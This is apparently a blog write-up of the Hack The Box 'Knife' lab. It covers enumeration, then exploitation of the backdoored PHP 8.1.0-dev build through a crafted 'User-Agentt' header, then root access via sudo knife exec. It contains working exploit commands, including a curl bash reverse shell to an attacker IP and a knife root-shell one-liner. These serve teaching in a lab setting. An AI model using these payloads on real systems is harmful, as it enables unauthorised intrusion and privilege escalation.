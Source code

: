 ```yaml
---
title: "Hack The Box - Knife"
description: In this post, I'll go over Knife from Hack the Box. It's an easy level Linux machine that shows what damage a supply chain attack on the PHP codebase could have caused if it would have slipped through the cracks and got released into the wild.
date: 2021-08-30T20:00:00+01:00
categories: [hack-the-box, writeup, knife, php, backdoor, chef]
cover: ~/assets/2021-08-30-hack-the-box-knife/cover.jpg
---
```


Knife is one of the easier boxes on HTB. There are only two significant steps involved. The first step is noticing a header in the HTTP request that contains a weird PHP version. Looking for this version online shows that this particular PHP version has a backdoor inserted when the PHP development servers were hacked back in March of 2021. Once on the box, there is a setuid binary called knife. This binary is part of Chef, which is a collection of DevOps tools. Going through the docs show that arbitrary code execution is possible to get access to the root user.

## Enumeration
I am kicking off a nmap scan to understand better what services and ports the target machine is exposing. With arguments`-sV` to enumerate versions, `-sC` to run all default scripts, and store the output in a file named `nmap.txt`. Dumping the output to a log file makes it easy to refer back to later, or if you want to embed it in your blog, as I do.

```sh
$ nmap -sC -sV -o nmap.txt 10.10.10.242

# Nmap 7.91 scan initiated Wed May 26 20:16:25 2021 as: nmap -sC -sV -v -o nmap.txt 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 26 20:16:34 2021 -- 1 IP address (1 host up) scanned in 9.23 seconds
```

The result shows an ssh server running on port `22` and a simple web server hosted by Apache on port  `80`. Opening this website in Firefox show the renderings of what I would call a pretty basic HTML website.

![Website On Port 80](../../../assets/2021-08-30-hack-the-box-knife/website.png)

After combing through the website for a minute or two, I decided to start a couple of gobuster scans. None yielded anything fruitful and it wasn't until I checked my `nikto` scan for the second time that I noticed something interesting .

```sh
$ nikto -host 10.10.10.242 -output knife-nikto.txt

- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.242
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/8.1.0-dev
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ HTWZVPJS Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ GET The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ GET The site uses SSL and Expect-CT header is not present.
```

The `x-powered-by` header contains a rather interesting version, `PHP/8.1.0-dev`, indicating this is running a development build of PHP. On release day, Googling this version didn't yield many results. Hence, I took to [GitHub](https://github.com/php/php-src) and tried to find more information in the PHP source code itself. But this also wasn't very helpful. The repo didn't contain any tags for this specific version or any references to it whatsoever. Spending a lot more time trying different google searches, I bumped in this article from [artechnica](https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server). It talks about a supply chain attack against the PHP codebase where it got hacked, and a backdoor got inserted. Looking into it deeper many more articles talking about it https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/ and https://news-web.php.net/php.internals/113838.

Funny enough, searching for that version now directly leads to a working exploit on exploitdb:

![Duck Duck Go Search Result](../../../assets/2021-08-30-hack-the-box-knife/duckduckgo-search-now.png)

In a nutshell, what happened is that two commits got added to the php-src repo under the account names of two well-known PHP developers. The assumption is that an attacker gained access to git.php.net server. Git by itself doesn't add any safety measures around identity, making it very easy for whoever wants to impersonate a commit as a specific user. Following this incident, PHP maintainers have decided to migrate the official PHP source code repository to GitHub as a precaution.

Given the code lives on GitHub and the open-source nature of PHP, I can have a look at the malicious commits [here](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R370) and [here](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a?branch=2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a&diff=unified#diff-a35f2ee9e1d2d3983a3270ee10ec70bf86349c53febdeabdf104f88cb2167961R368-R370). The commits target one file, `ext/zlib/zlib.c`, adding 11 lines of code (all in green):

It’s fascinating to see others commenting on the commit, the first comment asking if the misspelling of `HTTP_USER_AGENT` as `HTTP_USER_AGENTT` was a mistake, and four lines later someone asking what it did, and someone else responding basically that’s it’s a backdoor, and how it works.

![PHP Malicious Commit](../../../assets/2021-08-30-hack-the-box-knife/php-malicious-commit.png)

As the devs point out, to execute this backdoor, I’ll need a `User-Agentt` header that starts with “zerodium”, and whatever is after that will be executed as PHP code.

## Foothold
To test this out, I quickly prepare a `curl` command that will execute the `echo` command with some random text, hoping embedded in the output.

```sh
curl -XGET -H 'User-Agentt: zerodiumsystem("echo hello_15234_world");' 10.10.10.242 | grep hello
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5821    0  5821    0     0   111k      0 --:--:-- --:--:-- --:--:--  111k
hello_15234_world
```

It works! All I have to do now is replace the `echo` command with a reverse shell
 `curl -v -I -XGET -H 'User-Agentt: zerodiumsystem("bash -c \"bash -i >& /dev/tcp/10.10.14.9/6666 0>&1\"");' 10.10.10.242`. And I get a shell to extract the user flag:

![User Flag](../../../assets/2021-08-30-hack-the-box-knife/user-flag.png)

## Privilege escalation
The user I got access to is called james, and it seems that this user can run the `knife` command as root.

```sh
james@knife:/dev/shm$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

james@knife:/dev/shm$
```

Knife is part of the [Chef](https://docs.chef.io/platform_overview) toolchain. Which is an infrastructure as code platform. Knife itself is a command line tool that according to the docs can be used to manage different parts of chef such as nodes, cookbooks, recipes, roles, environments, ...

Digging through the docs I learned that `knife` has an [exec](https://docs.chef.io/workstation/knife_exec/) command that allows running ruby code. At the time of the challenge `knife` didn't have a [GTFObins page](https://gtfobins.github.io/gtfobins/ruby/#sudo) yet. Because I quickly skimmed the docs I [downloaded](https://github.com/secjohn/ruby-shells/blob/master/revshell.rb) a Ruby reverse shell and executed the file with `knife` to get root access:

![Root Flag](../../../assets/2021-08-30-hack-the-box-knife/root-flag.png)

But with the `-e` it could have been as easy as:

```
james@knife:~$ sudo knife exec -E "exec '/bin/bash'"
root@knife:/home/james#
```
